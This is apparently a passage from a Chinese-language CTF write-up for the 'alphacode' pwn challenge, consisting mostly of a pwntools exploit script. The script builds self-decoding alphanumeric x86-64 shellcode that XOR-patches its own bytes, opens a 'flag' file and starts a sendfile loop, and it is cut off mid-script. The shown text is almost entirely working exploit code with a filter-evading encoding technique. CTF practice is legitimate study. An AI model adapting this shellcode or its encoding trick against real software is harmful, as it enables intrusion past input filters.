 {% note blue fa-info %}
官方题解中异或解码出`ADD`来凑大于`0x7f`的字节，没有使用处于范围内的`IMUL`
{% endnote %}

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
EXE = './alphacode'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1602)')
    else:
        sh = remote('node5.buuoj.cn', 27789)

    code = [
        # mov ecx, 0x20240026
        b"\x35\x41\x30\x65\x61", # xor eax, 0x61653041
        b"\x35\x67\x30\x41\x41", # xor eax, 0x41413067
        b"\x50", # push rax
        b"\x59", # pop rcx
        # xor decrypt <code 1>
        b"\x68\x71\x30\x4e\x30", # push 0x304e3071
        b"\x58", # pop rax
        b"\x31\x41\x34", # xor [rcx + 0x34], eax
        # xor decrypt <code 2>
        b"\x68\x30\x30\x30\x30", # push 0x30303030 <- padding 3 b'0'
        b"\x58", # pop rax
        b"\x30\x41\x41", # xor [rcx + 0x41], al
        # xor decrypt 2 layers on <code 3>
        b"\x6b\x41\x30\x4e", # imul eax, dword ptr [rcx + 0x30], 0x4e
        b"\x35\x30\x61\x41\x30", # xor eax, 0x30416130
        b"\x31\x41\x47", # xor [rcx + 0x47], eax

        # push "flag" on rsp >>>
        b"\x68\x66\x6c\x61\x67", # push 0x67616c66
        b"\x54", # push rsp
        # mov rax, SYS_open
        b"\x6a\x32", # push 0x32
        b"\x58", # pop rax
        b"\x34\x30", # xor al, 0x30 <code 1 @ \x30>
        # mov rdi, [rsp] (lea rdi, "flag") <<<
        b"\x5f", # pop rdi
        # fd = open("flag", 0, 0)
        b"\x0f\x05", # syscall

        # mov r10, 1
        b"\x6a\x31", # push 0x31
        b"\x58", # pop rax
        b"\x34\x30", # xor al, 0x30
        b"\x50", # push rax
        b"\x41\x5a", # pop r10
        # mov rdi, 1
        b"\x50", # push rax
        b"\x5f", # pop rdi <code 2>
        # loop:
        # mov rax, SYS_sendfile
        b"\x6a\x49", # push 0x49
        b"\x58", # pop rax
```